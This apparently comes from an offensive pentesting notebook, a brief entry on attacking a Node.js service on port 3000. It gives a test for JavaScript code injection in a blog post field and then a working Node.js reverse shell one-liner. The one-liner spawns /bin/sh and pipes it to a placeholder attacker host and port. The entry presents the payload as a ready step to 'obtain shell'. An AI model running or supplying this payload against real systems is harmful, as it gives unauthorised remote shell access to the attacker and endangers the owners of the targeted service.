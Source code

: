 # (3000) NodeJS

<details>

<summary>JS Code Injection</summary>

Check blog post input for JS Code Injection

Using `7 * 7`  --> if result is 49 --> Vuln&#x20;

![](<../.gitbook/assets/image (115).png>)

Run JS Rev Shell to obtain shell!

```javascript
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(LPORT, "LHOST", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```

</details>
